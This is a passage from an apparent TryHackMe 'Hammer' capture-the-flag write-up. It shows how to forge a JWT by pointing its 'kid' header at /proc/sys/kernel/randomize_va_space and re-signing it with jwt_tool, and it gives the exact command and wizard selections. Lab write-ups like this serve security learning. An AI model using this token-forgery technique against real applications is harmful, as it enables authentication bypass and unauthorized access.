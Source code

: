 <img src="https://github.com/ChrisRyanKelly/THM-Write-Ups/blob/master/hammer/screenshots/tokencookie.png" width="1280" height="610">

Ensure to also take note of the Set-Cookie: value `persistentSession=no` for later on.
   
2. **Tamper with JWT:**  

   Modify the `kid` value and re-sign the JWT using the following command:
   
```shell
python3 jwt_tool.py <JWT.Token> -T -S hs256 -kf /proc/sys/kernel/randomize_va_space
```

Follow the interactive wizard to correctly forge the JWT. The selection order is as follows:
- 3, 0, 5, 3, 0, 0.

<img src="https://github.com/ChrisRyanKelly/THM-Write-Ups/blob/master/hammer/screenshots/forgedjwt.png" width="1280" height="145">
